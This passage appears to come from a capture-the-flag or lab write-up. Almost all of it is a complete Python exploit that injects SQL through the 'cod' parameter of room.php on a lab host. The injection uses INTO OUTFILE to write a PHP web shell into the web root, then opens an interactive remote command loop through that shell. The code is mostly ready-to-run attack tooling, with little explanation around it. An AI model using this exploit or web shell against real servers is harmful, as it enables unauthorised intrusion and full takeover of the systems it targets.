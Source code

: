 Assuming the SQL process has valid permissions to write to the default web directory `/var/www/html/` the following Python script can be used:

```python
import re
import string
import random
import binascii
import requests

REGEX = r'BUBBA-START(.*)BUBBA-END'
URL = 'http://10.10.10.143/'
SQL = "0 UNION ALL SELECT 1,2,3,{0},5,6,7 INTO OUTFILE '/var/www/html/{1}'"
PHP = """<?php if (isset($_REQUEST['c'])) {
  echo 'BUBBA-START';
  if (class_exists('ReflectionFunction')) {
    $f = new ReflectionFunction('system');
    $f->invoke($_REQUEST['c']);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($_REQUEST['c']));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system',$_REQUEST['c']);
  } elseif (function_exists('system')){
    system($_REQUEST['c']);
  }
  echo 'BUBBA-END';
}?>"""

# make a random 20 character webshell name since OUTFILE cannot overwrite existing files
filename = ''.join(random.choice(string.ascii_lowercase) for i in range(20)) + '.php'
print(f'[*] webshell name: {filename}')
# convert webshell into hex
# NOTE: removing newlines since OUTFILE does not handle them well...
webshell_raw = '0x' + binascii.hexlify(PHP.replace('\n','').encode()).decode()
# upload webshell
print(f'[*] SQL query: {SQL.format(webshell_raw, filename)}')
requests.get(URL + 'room.php', params={'cod':SQL.format(webshell_raw, filename)})
# test shell
print(f'[*] testing shell...')
r = requests.get(URL + filename, params={'c':'whoami'})
val = re.findall(REGEX, r.text, re.S)
if not val:
  print('[-] failed!')
  exit()
print('[+] success!')
while True:
  c = input('> ')
  r = requests.get(URL + filename, params={'c':c})
  val = re.findall(REGEX, r.text, re.S)
  if not val:
    print('[!] no command output?')
  print(val[0])
```
